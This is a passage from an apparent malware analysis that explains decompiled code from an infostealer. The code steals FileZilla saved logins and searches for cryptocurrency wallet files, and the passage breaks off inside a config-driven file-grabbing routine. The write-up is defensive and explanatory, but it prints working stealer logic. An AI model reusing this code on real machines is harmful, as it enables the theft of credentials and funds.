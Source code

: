 Note that these xml files store recent passwords in Filezilla. The XML structure is similar to Entity12 (LoginData).
In fact, what follows is exactly that:
```csharp
if (File.Exists(path))  list.AddRange(Id2(path));
if (File.Exists(path2))  list.AddRange(Id2(path2));
```

The “id2” function just converts the XML entries into a List<Entity12>, i.e. List<LoginData>. So this callback is stealing Filezilla Login data.
We can also easily find out that settings.Id3 is just settings.StealFilezillaLoginInfo (a flag).


#### Callback 18
```cpp
public static void ащы9р34(ConnectionProvider connection, Entity2 settings, ref Entity7 result)
{
  if (settings.Id4)
  {
      BrEx brEx = new BrEx();
      brEx.Init(settings.Id11);
      List<Entity5> list = FileScanning.Search(new AllWallets(), brEx);
      list.AddRange(ConfigReader.Read(settings.Id13));
      Entity13 entity = connection.Id9(list);
      if (entity == Entity13.Id3)
      {
          ащы9р34(connection, settings, ref result);
      }
```
The Init function first stores some Wallets-related strings into a Collection, for example:
- SaturnWallet
- RoninWallet
- TerraStation
- HarmonyWallet
- …

Then, the same function FileScanning.Search (used in Callback14)
And once again, such as in Callback14, it returns a list of Entity5 containing each wallet’s data, if there’s any wallet in the device.

Thanks to the ConfigReader.Read function, we can also find out what settings.id13 is:
```csharp
public static List<Entity5> Read(IEnumerable<Entity17> configs)
{
List<Entity5> list = new List<Entity5>();
try
{
  foreach (Entity17 config in configs)
  {
      foreach (Entity16 item in config.Id3)
      {
          try
          {
              FileInfo[] files = new DirectoryInfo(Environment.ExpandEnvironmentVariables(config.Id2 + "\\" + item.Id1)).GetFiles(item.Id2, item.Id3 ? SearchOption.AllDirectories : SearchOption.TopDirectoryOnly);
              FileInfo[] array = files;
              foreach (FileInfo fileInfo in array)
              {
                  try
                  {
                      Entity5 entity = new Entity5(fileInfo.FullName)
                      {
                          Id4 = fileInfo.Directory.FullName.Replace(Environment.ExpandEnvironmentVariables(config.Id2) + "\\", string.Empty),
                          Id5 = config.Id1
```